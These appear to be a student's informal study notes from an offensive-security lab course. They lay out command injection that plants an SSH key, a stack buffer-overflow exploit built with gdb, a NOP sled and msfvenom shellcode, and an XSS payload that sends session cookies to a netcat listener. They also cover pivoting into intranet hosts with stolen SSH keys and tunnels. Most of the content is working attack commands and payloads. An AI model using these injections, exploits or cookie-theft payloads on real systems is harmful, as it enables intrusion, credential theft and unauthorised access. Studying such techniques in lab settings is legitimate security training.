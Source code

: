 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.
################################################################################################################################
Linux python script and such
################################################################################################################################
### Linux
disass <function> #
Certain scripts can take user input ./func <<<$(echo "sjdlfnmlse")
Certain scripts can take parameters ./func $(echo "ojksdmiosdkosf")
gdb ./inventory.exe -> run <<<$(pyhton peebuff.py)

vim
gdb ./func -> run -> info functions -> pdisass main -> pdisass getuserinput
If a system does not have the peda plugin, open-source research the functions and find vulnerabilities.

####
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#####
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator
Instructor pointer is what we are targeting, EIP.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.

After finding the offset, recreate script as
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env -> run -> ctrl+C DO NOT ENTER
info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
print(offset+eip+nop)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
make your eip your first little endian
0xf7de3b59 -> \x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb

quit to leave gbd or shell to go to shell

msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python

#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
If there is an error regenerate msfvenom buf lines and reattempt.
./func <<<$(python linbuff.py)

0xf7def000 0xffffe000
################################################################################################################################################################
Cross-Site Scripting:
################################################################################################################################################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

ssh -i /home/student/stolenkey1 Donovian-Intranet@192.168.150.253

ssh -MS /tmp/hype hype -O forward student@JUMP -L 41010:192.168.28.100:2222
ssh student@localhost -p 41010 -d 9050
ssh comrade@localhost -p 41010 -L 41011:192.168.150.253:3201 -D 9050
ssh -i /home/student/stolenkey/.ssh comrade@localhost -p 41011

To get into the T3, you first need to establish connection to your T1 from your box, this is the master socket. From there you use a localhost login on the local port you opened up to connect to the jump on its open ssh port. You then set up a local port connecting to your T1's socket that now connects to the T3 on its open ssh port, and you can send proxychains up through that as well. Now you masquerade using the T1's ssh key , which is the ssh -i, connecting to the port you set up that sends yourself into the T3.
